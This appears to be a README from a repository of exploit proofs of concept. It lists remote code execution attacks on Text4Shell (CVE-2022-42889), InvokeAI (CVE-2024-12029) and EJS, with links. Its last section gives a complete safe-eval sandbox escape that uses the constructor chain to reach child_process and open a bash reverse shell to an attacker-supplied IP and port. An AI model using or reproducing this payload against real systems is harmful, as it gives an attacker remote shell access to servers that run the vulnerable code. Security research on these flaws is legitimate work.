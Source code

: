 # PoCs

## CVE 2022-42889
Text4Shell RCE Python3 version

## CVE 2024-12029
Unauth RCE in InvokeAI. The vulnerability was discovered by @jackfromeast. Here is a Python3 version

## Node JS
### EJS v3.1.9 RCE (valid from EJS v2.6.2 to v3.1.9)
[Chain of Unrestricted Render Options](https://github.com/apostolovd/PoCs/blob/main/EJS/Chain%20of%20Unrestricted%20Render%20Options.pdf)

### safe-eval bypass
It works with valuesOf(), toLocaleString(), propertyIsEnumerable.call()
> (function() {try{valueOf()} catch(rce){rce.constructor.constructor('return process')().mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'`); }})()
